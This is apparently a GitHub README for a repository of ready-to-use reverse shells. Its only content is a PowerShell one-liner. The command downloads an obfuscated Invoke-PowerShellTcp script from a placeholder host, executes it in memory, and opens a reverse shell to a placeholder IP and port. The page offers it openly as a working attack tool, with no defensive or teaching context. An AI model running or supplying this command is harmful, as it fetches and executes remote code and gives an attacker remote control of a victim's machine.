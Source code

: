 # shells
a place for various reverse shells which are ready to use

**Invoke-PowerShellTcp_obfuscated.ps1**

```powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://X/Invoke-PowerShellTcp_obfuscated.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress X -Port X```

